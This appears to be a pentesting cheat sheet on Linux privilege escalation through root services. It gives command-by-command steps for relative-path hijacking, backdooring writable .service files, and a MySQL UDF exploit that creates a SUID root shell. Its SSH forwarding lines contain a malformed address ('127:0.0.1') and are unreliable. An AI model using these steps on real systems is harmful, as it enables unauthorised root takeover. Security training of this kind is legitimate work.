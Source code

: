 # Service Exploitation

Show all processes running as root:
```bash
ps aux | grep "^root"
```

With any results, try identifying the version number of the program being executed. And then just search for exploits.

Running the program with the --version or -v command line option often shows the version number:
```bash
$ <program> --version
$ <program> -v
```
On debian-like distributions, dpkg can show installed programs and their versions:
```bash
$ dpkg -l | grep <program>
```

On systems that use rpm, the following achieves the same:

```bash
$ rpm -qa | grep <program>
```

Like with scheduled tasks / cron jobs, **Pspy** can be useful to see what runs on a machine over time.

Enum commands:

```bash
ps aux
ps -ef
top
cat /etc/services

dpkg -l #Debian
rpm -qa #Centos
```

### Relative Path Exploits

Check the path used by systemctl
```bash
systemctl show-environment
```

If you can write to one of the locations on the path, then you might be able to elevate privileges. 

For that you will have to find a service that does not supply the path to a called binary. 

For example it would say something like
```bash
ExecStart=somebinary
```
instead of 
```bash
ExecStart=/usr/bin/somebinary
```
Then you can create that binary and hopefully it takes precedent over the real intended binary.

### Insecure File Permissionss

Check if you can write any .service file, if you can, you could modify it so it executes your backdoor when the service is started, restarted or stopped (maybe you will need to wait until the machine is rebooted).

For example create your backdoor inside the .service file with `ExecStart=/tmp/script.sh`


## Example: MySQL

In this scenario we figured out the following via enumeration:

* The mysqld process runs as root
* We can connect to MySQL as root user. Either because we do not have to supply a password. Or because we know the mysql root user password from enumeration.

lse.sh should point these out.

Let's figure out the version of mysqld:

```bash
$ mysqld --version
mysqld  Ver 5.1.73-1+deb6u1 for debian-linux-gnu on x86_64 ((Debian))
```
```bash
searchsploit linux mysql 5.
```

There is a PrivEsc path for this version of MySQL, involving user defined functions (UDF).

* MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
* Exploit: https://www.exploit-db.com/exploits/1518

Compile the exploit:
```bash
gcc -g -c raptor_udf2.c
```

For x64:
```bash
gcc -g -c raptor_udf2.c -fPIC
```

Create a shared object from the exploit binary:
```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Create the plugin/function and use it to make suid copy of bash:

```bash
$ mysql -u root -p
Enter password:
[...]
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/exploit/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell');

```

Depending on the version of MySQL you will have to change plugin directory. Here in version 5 it is `/usr/lib/mysql/plugin/`.

In the original exploit description they just write to `/usr/lib/` (presumably for version 4). Do some googling.


To gain a root shell just execute the copied bash binary:

```bash
$ /tmp/rootshell -p
rootshell-4.1# whoami
root
```

-p flag to keep the SUID, bash would otherwise automatically drop it.


## Port Forwarding

See [dedicated SSH spreadsheet](../../ssh.md)

---

If you cannot run/compile an exploit from the target machine, then just use port forwarding so you can exploit it from your kali machine.

```bash
ssh -R <local-port>:127:0.0.1:<service-port> <username>@<local-machine>
```

For the MySQL example this would be:
```bash
ssh -R 4444:127:0.0.1:3306 kali@<our_own_ip>
```

...which would open the port 4444 on our kali machine and allow us to access the MySQl server on the target through this local port.

```bash
mysql -P 4444 -u root -p
```